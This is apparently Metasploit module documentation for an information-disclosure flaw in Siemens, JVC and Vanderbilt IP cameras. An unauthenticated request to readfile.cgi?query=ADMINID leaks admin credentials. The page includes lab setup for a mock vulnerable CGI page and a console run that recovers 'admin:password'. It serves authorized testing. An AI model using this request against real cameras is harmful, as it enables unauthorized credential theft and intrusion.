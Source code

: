 ## Description

  SIEMENS IP-Camera (CVMS2025-IR + CCMS2025), JVC IP-Camera (VN-T216VPRU),
  and Vanderbilt IP-Camera (CCPW3025-IR + CVMW3025-IR)
  allow an unauthenticated user to disclose the username & password by
  requesting the javascript page 'readfile.cgi?query=ADMINID'.
  Siemens firmwares affected: x.2.2.1798, CxMS2025_V2458_SP1, x.2.2.1798, x.2.2.1235

## Vulnerable Application

This module has been verified against the mock vulnerable page listed below.

### Mock Vulnerable Page

These instructions will create a cgi environment and a vulnerable perl application for exploitation.
Kali rolling (2019.1) was utilized for this tutorial, with apache.

#### Setup

1. Enable cgi: `a2enmod cgid`
2. `mkdir /var/www/html/cgi-bin`
3. Enable folder for cgi execution: add `ScriptAlias "/cgi-bin/" "/var/www/html/cgi-bin/"` to `/etc/apache2/sites-enabled/000-default.conf ` inside of the `VirtualHost` tags
4. Create the vulnerable page by writing the following text to `/var/www/html/cgi-bin/readfile.cgi`:

```
#!/data/data/hilled.pwnterm/files/usr/bin/perl
use CGI qw(:standard);
$query = new CGI;
print $query->header( -type=> "text/javascript"),
$query->import_names( 'Q' );
my $data = <<'DATA';
var Adm_ID="admin";
var Adm_Pass1="password";
var Language="en";
var Logoff_Time="0";
DATA
if ($Q::query == "ADMINID") {
  print $data;
}
```

## Verification Steps

1. Start msfconsole
2. ```use auxiliary/gather/ipcamera_password_disclosure```
3. ```set rhosts [rhosts]```
4. ```run```

## Scenarios

### Against the Mock page listed above

  ```
  msf5 > use auxiliary/gather/ipcamera_password_disclosure 
  msf5 auxiliary(gather/ipcamera_password_disclosure) > set rhosts 127.0.0.1
  rhosts => 127.0.0.1
  msf5 auxiliary(gather/ipcamera_password_disclosure) > run
  
  [+] Found: admin:password
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  ```
